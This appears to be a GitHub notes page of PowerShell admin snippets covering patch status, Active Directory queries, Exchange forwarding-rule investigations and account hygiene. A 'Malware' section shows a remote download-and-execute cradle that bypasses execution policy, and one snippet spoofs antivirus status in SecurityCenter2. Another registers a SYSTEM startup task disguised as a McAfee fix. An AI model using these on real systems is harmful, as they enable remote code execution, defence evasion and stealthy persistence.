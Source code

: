 # PowerShell
PowerShell scripts and tricks

# Usefull cmdlets
## Report patch status
```
wmic qfe list brief /format:texttablewsys
```
```powershell
$Session = New-Object -ComObject Microsoft.Update.Session
$Searcher = $Session.CreateUpdateSearcher()
$HistoryCount = $Searcher.GetTotalHistoryCount()
$Updates = $Searcher.QueryHistory(0,$HistoryCount)
$Updates |  Select Title,@{l='Name';e={$($_.Categories).Name}},Date
```
## Get list of all OS in the domain
```powershell
Get-ADComputer -Filter 'enabled -eq "true"' -Properties Name,Operatingsystem,OperatingSystemVersion,IPv4Address,LastLogonDate |
Sort-Object -Property Operatingsystem |
Select-Object -Property Name,Operatingsystem,OperatingSystemVersion,IPv4Address,LastLogonDate |
Out-GridView
```
## Sign PS1 script
see sign_ps1.ps1
## Filesystem
### Get hidden streams 
":$DATA" is normal. Everything else is not. 
```powershell
Get-Item -Path C:\path\* -Stream * | ?{$_.stream -notlike ":`$DATA"} | select FileName, Stream, Length
```

## Events
### get powershell logs
```powershell
Get-WinEvent "Microsoft-Windows-PowerShell/Operational" -Oldest | ? ID -eq 4104 | select TimeCreated, ID, Message | ft -wrap
```

## It's alive!
```powershell
 Add-Type -AN System.Speech;[System.Speech.Synthesis.SpeechSynthesizer]::new().Speak("Kill all h
umans!")
```
## Windows Domain 
## List of all properties
https://social.technet.microsoft.com/wiki/contents/articles/12037.active-directory-get-aduser-default-and-extended-properties.aspx?PageIndex=2
https://www.easy365manager.com/how-to-get-all-active-directory-user-object-attributes/
### Get enabled users
```powershell
Get-ADUser -Filter 'enabled -eq $true' | Select Name,samaccountname | Export-Csv enabled_users.csv 
```
### Get list of PCs from AD group
```powershell
 Get-ADComputer -Filter * -SearchBase "OU=Windows 10,OU=Computers,OU=,DC=,DC=net"
 | select -ExpandProperty Name
```
 or
 ```powershell
 dsquery computer "OU=Windows 10,OU=Computers,OU=,DC=,DC=net" -o rdn`
 ```
 
 ### Get list of users with local admin access
 ```powershell
 Get-LocalGroupMember -name Administrators
 ```
 ```powershell
 Get-LocalGroupMember -name Administrators |? {$_.ObjectClass -eq "Group"} | % {Get-ADGroupMember $_.name.Split('\')[1] -Recursive} | % {Get-ADUser $_.SamAccountName -properties Enabled, PasswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount} | select Name, SamAccountName, Enabled, PasswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount | ft
 ```
 
 ### get all users in the domain
 ```powershell
 Get-ADUser -Filter * -SearchBase "DC=sigma,DC=sbrf,DC=ru" -Properties enabled,Name,Surname...... | export-csv login.csv -NoTypeInformation
 ```
 via Outlook address book
 ```powershell
[Microsoft.Office.Interop.Outlook.Application] $outlook = New-Object -ComObject Outlook.Application 
$entries = $outlook.Session.GetGlobalAddressList().AddressEntries 
$content = @()

# https://docs.microsoft.com/en-us/office/vba/api/Outlook.ExchangeUser
foreach($entry in $entries){
  $content += New-Object PsObject -property @{
   'Name' = $entry.Name
   'FirstName' = $entry.GetExchangeUser().FirstName
   'LastName' = $entry.GetExchangeUser().LastName
   'JobTitle'= $entry.GetExchangeUser().JobTitle
   'Department' = $entry.GetExchangeUser().Department
   'PrimarySmtpAddress' = $entry.GetExchangeUser().PrimarySmtpAddress
   'MobileTelephoneNumber'= $entry.GetExchangeUser().MobileTelephoneNumber
     }
}

#export to csv
$content | export-csv Outlook.csv -NoTypeInformation
```
 
 ### Get KRBTGT info
```powershell
Get-ADUser -Filter{SamAccountName -like "krbtgt*"} -Properties PasswordLastSet,msDS-KeyVersionNumber, msDS-KrbTgtLinkBl
```
note: krbtgt_XXX accoutns are owned by RODC, KeyVersion == 1 means password was never changed

## Get AV status
```powershell
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct  -ComputerName  $env:computername`
```

## Set AV status
```powershell
Set-WmiInstance -Path '\\HOSTNAME\root\SecurityCenter2:AntiVirusProduct.instanceGuid="{1006DC03-1FB1-9E52-7C81-F2FAB48962E3}"' -Argument @{productState="397312"}
```

## Autostart smtng
```powershell
$taskName = "McAfee VSEp10 fix"
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-File "C:\Temp\test.ps1"'
$trigger = New-ScheduledTaskTrigger -AtStartup -RandomDelay 00:00:30
$settings = New-ScheduledTaskSettingsSet -Compatibility Win8
$principal = New-ScheduledTaskPrincipal -UserId SYSTEM -LogonType ServiceAccount -RunLevel Highest
$definition = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings -Description "Run $($taskName) at startup"
Register-ScheduledTask -TaskName $taskName -InputObject $definition

Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue 
```

## Mail investigations
### Retrieve all rules - high level
```powershell
Get-Mailbox -ResultSize unlimited | Get-InboxRule -ErrorAction:SilentlyContinue | format-table -Autosize MailboxOwnerID,name,from,redirectto,ForwardTo > c:\Forwarding_Rules.csv	
```
### Retrieve all rules - detailed
```powershell
Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName} | Select MailboxOwnerID, Name, Description | Export-Csv allruleresults.csv -NoTypeInformation
```
```powershell
Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName | ? {($_.ForwardTo -ne $null) -or ($_.ForwardAsAttachmentTo -ne $null) -or ($_.RedirectsTo -ne $null)} } | Select MailBoxOwnerID, Name, ForwardTo, ForwardAsAttachmentTo, RedirectTo | Export-Csv allrulesenabled.csv -NoTypeInformation
```
### Check for email forwarding for one email address
```powershell
Get-Mailbox [EmailAddress] | fl ForwardingSMTPAddress,DeliverToMailboxandForward
Get-Mailbox | where {$_.ForwardingAddress -ne $null} | Select Name, ForwardingAddress, DeliverToMailboxAndForward
```
### Find all email forwarding in the domain
```powershell
Get-Mailbox -ResultSize Unlimited | Select Name, Alias, ServerName, DeliverToMailboxAndForward | where {$_.DeliverToMailboxAndForward -eq "true"} | Export-Csv ExchangeFWDlist.csv -NoTypeInformation
```
### Remove an email forward
```powershell
Set-Mailbox -Identity [EmailAddress] -DeliverToMailboxAndForward $false -ForwardingSMTPAddress $null
```
### Remove all email forwarding on the domain
```powershell
Get-Mailbox | Where {$_.ForwardingAddress -ne $null} | Set-Mailbox -ForwardingAddress $null -DeliverToMailboxAndForward $false	
```
### Send results to a CSV file
```powershell
[command]| Export-Csv c:\path\to\file.csv -NoTypeInformation	
```
## Office365
### Get MFA status
```powershell
Connect-MsolService
$User = Get-MSolUser -UserPrincipalName user@domain.com
$User.StrongAuthenticationMethods
```

## Malware
### start in memory from web cradle
```powershell
powershell.exe –ep Bypass –nop –noexit –c iex (New-Object System.Net.WebClient).DownloadString(“https://bit.ly/M@1w@r3”)
```
### start from file and avoid execution bypass policy
```powershell
gc .\test.ps1 | powershell -
```

## Install RSAT
```powershell
$currentWU = Get-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” | select -ExpandProperty UseWUServer
Set-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” -Value 0
Restart-Service wuauserv
Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
Set-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” -Value $currentWU
Restart-Service wuauserv
```

## Get dead souls
find accounts which are enabled but are not used for a while. Look for password expiration date - if it's in the past - probably noone tried to login into this account for a while
```powershell
 Get-ADUser -filter {Enabled -eq $True -and PasswordNeverExpires -eq $False} -Properties mail, pwdLastSet, AccountExpirationDate, PasswordLastSet, DisplayName, "msDS-UserPasswordExpiryTimeComputed", Title, manager, department, employeeid  | Select-Object -Property Displayname, samaccountname, @{Name="PasswordExpiryDate";Expression={[datetime]::FromFileTime($_."msDS-UserPasswordExpiryTimeComputed")}}, Title, @{n="Manager Name";e={(Get-ADuser -identity $_.Manager -properties displayname).DisplayName}}, Department, employeeid, mail, AccountExpirationDate, PasswordLastSet | sort-object -property PasswordExpiryDate | Export-Csv -Path "c:\Temp\deadsouls.csv" -NoTypeInformation -Encoding UTF8
```

## Download multiple files
For ($i=30; $i -lt 100; $i++) {
    $link = "https://langme.ru/lk/lessons/german/beginners/files/lessons-deutch-$i.pdf"
    $targetFileName = "c:\Temp\langme - Немецкий Storytelling - Урок $i.pdf"
    Invoke-WebRequest -Uri $link -OutFile $targetFileName
    }
